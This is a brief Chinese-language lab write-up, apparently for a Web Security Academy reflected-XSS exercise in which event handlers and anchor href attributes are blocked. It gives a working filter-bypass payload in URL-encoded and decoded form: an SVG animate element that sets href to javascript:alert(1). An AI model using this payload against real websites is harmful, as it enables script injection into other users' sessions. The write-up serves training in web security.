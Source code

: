 # 题意
![](pic/9-3.png)

该实验包含一个反射型XSS漏洞，并且有一些常见的tags。但是所有的事件和锚点href属性都被封锁了。因此，需要注入的payload需要实现：一旦点击就唤起alert()函数。需要注意的是，payload中需要写入单词“click”来模拟用户的点击。
# 解题思路
payload如下，进入该网页即可
```
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```

```
https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate+attributeName=href+values=javascript:alert(1)+/><text+x=20+y=20>Click me<text></a>
```
# 知识点